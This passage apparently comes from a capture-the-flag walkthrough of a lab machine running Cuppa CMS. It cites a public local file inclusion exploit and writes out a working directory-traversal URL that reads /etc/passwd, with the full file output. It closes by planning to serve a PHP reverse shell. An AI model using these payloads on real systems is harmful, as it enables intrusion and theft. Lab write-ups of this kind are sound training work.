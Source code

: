 - Going to `/45kra24zxs28v3yd/administrator` we find that it is running Cuppa CMS.

- After some googling, I found [this](https://www.exploit-db.com/exploits/25971) exploit for Cuppa CMS that allows for LFI - Local File Inclusion attacks.

- It seems that the payload works like this:

```
ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=[command]
```

eg: 

```
http://10.10.54.6/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
```

- My next step was to start a python webserver in a directory where a php reverse shell would be located. 
